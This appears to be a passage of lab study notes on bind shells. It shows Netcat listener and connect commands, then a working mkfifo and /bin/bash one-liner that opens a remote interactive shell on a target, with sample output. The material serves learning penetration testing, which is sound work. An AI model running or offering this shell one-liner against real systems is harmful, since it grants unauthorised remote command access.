 ![[./Screenshots/bindshell.png]]

* Connect with `IP address` and `port` to the target

#### No. 1: Server - Target starting Netcat listener
```sh
$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

#### No. 2: Client - Attack box connecting to target
```sh
$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

## Establishing a Basic Bind Shell with Netcat
```sh
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <target_ip> 7777 > /tmp/f
```

```sh
$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

